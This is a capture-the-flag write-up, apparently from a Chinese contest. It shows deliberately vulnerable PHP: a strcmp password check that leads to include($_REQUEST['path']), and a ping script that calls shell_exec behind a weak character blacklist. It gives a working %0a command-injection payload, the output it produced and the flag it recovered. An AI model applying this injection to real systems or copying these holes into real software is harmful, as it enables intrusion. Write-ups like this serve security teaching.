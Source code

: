 ```php
    $password="****************";
     if(isset($_POST['password'])){
        if (strcmp($_POST['password'], $password) == 0) {
            echo "Right!!!login success";
            include($_REQUEST['path']);
            exit();
        } else {
            echo "Wrong password..";
        }
-->
```
```php
# ping.php
<?php
if(isset($_REQUEST[ 'ip' ])) {
    $target = trim($_REQUEST[ 'ip' ]);
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '|' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    $cmd = shell_exec( 'ping  -c 4 ' . $target );
        echo $target;
    echo  "<pre>{$cmd}</pre>";
}
```
ping.php的ip参数使用%0a作命令分隔符可以执行任意命令，访问“/ping.php?ip=1%0als”得到
```
PING 1 (0.0.0.1): 56 data bytes
ffffff1111aagggg.txt
index.php
ping.php
```
访问“ffffff1111aagggg.txt”得到flag
```
flag{You_AR3_qiao_bi_KuN???}
```

<br/>

#### post1(300)

> http://120.55.43.255:20133

查看网页源码
```html
POST[a] 这次我们玩过滤好了。
<!--
	eval(system($c));//read flag.txt But no cat!！！
-->
```
